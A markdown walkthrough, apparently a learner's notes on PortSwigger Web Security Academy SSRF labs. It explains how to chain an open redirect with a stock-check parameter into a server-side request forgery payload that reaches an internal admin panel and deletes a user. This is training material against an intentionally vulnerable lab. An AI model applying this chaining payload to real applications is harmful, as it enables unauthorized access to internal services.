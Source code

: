 
**suggested materials:**

A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages! 
Orange Tsai's talk at: https://www.youtube.com/watch?v=voTHFdL9S2k



# ***5. SSRF with filter bypass via open redirection vulnerability***
https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection


To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos. 

**construct the payload:**

1. click on stock to get baseline messege:
**stockApi=/product/stock/check?productId=1&storeId=1** (after urldecoded) 

this will be the injection point: **stockApi=**


2. click on Next product to get the redirection syntax:

**GET /product/nextProduct?currentProductId=1&path=/product?productId=2 HTTP/1.1**

 now we have redirecting syntax **/product/nextProduct?currentProductId=1&path=** (no need for the **/product?productId=** we will replace them with our path)

3. Admin Adress from Lab description


**craft the payload:**

use injection point {1} with the redirection syntax {2} and the admin panel address {3} from lab description:

**{stockApi=}{/product/nextProduct?currentProductId=1%26path=}{http[:]192.168.0.12:8080/admin/delete?username=carlos}**




# 6. Lab: SSRF via flawed request parsing
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing

will be completed with burp pro



# 7. Host validation bypass via connection state attack
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-host-validation-bypass-via-connection-state-attack

reading material: https://portswigger.net/research/browser-powered-desync-attacks#state
